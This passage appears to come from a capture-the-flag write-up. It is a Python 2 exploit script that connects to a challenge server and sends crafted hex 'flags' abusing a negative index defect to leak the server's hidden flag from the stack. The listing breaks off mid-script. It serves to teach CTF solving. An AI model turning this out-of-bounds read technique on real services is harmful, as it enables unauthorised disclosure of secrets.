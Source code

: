 The complete solution is listed below:
```python
#!/usr/bin/env python

import sys, socket

# stack location of flags var, relative to bit_to_hex
start = -59            # For 64-bit machines replace with: -123
host  = 'wildwildweb.fluxfingers.net'
port  = 1412

# Python doesn't support chr(-x), so do unsigned -> signed conversion.
def twos_comp(n):
    return 256 + n

# Generate a flag which exploits the char-index defect. This flag should always
# work, even though it is an invalid format.
# In this code, a flag is a list of 44 hexadecimal bytes (strings of length 2)
def generate_flag():
    s = twos_comp(start)
    l = []
    # This loop causes server to copy the hidden flag; instead of expanding hex
    for i in xrange(44):
        l += ['0' + chr(s + i)] # Put a zero in the high order nibble
                                # Place negative offset of this flag char in low-order
    return l

# Format the flag and encode it for the wire
def encode_flag(f):
    return 'flag{'.encode('hex') + \
           ''.join(f) + \
           '}'.encode('hex') + '\n'

# Were we successful?
def check_resp(r):
    return r.startswith('Yaaaay')

# Were we successful (for the prior request)?
def check_sock(s):
    rv = check_resp(s.recv(1024))
    return rv

# Send a flag to the server
def send_flag(s, f):
    # Eat the prompt
    s.recv(1024)
    # Bonvoyage!
    s.send(encode_flag(f))

# Connect
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host, port))

# Eat the MOTD
print s.recv(1024)

# This flag should work, as long as the offset is correct
base = generate_flag()

print "VERIFYING FLAG OFFSET..."
send_flag(s, base)
if check_sock(s):
    print "  Success!"
else:
```